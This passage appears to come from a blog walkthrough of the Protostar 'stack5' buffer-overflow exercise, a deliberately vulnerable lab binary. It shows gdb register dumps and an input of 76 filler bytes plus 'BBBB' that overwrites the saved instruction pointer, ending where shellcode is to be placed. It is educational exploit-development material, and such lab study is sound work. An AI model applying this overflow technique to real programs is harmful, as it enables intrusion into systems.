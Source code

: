 ```
(gdb) info reg
eax            0xbffff740       -1073744064
ecx            0xbffff740       -1073744064
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff730       0xbffff730
ebp            0xbffff788       0xbffff788
esi            0x0      0
edi            0x0      0
eip            0x80483d9        0x80483d9 <main+21>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We see that the disassembly and relevant register values are exactly the same
as the previous levels. Reusing the calculations from before, we know that
`buffer` starts at `$esp + 0x10` and that we need to write 76 bytes + the
4 bytes we want `$eip` to be at after the `ret` instruction.

```
(gdb) run
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg
eax            0xbffff740       -1073744064
ecx            0xbffff740       -1073744064
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We confirm that we can overwrite `$eip` with the memory address that we want.
We also have a 76 byte buffer that we can use to store our shellcode.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/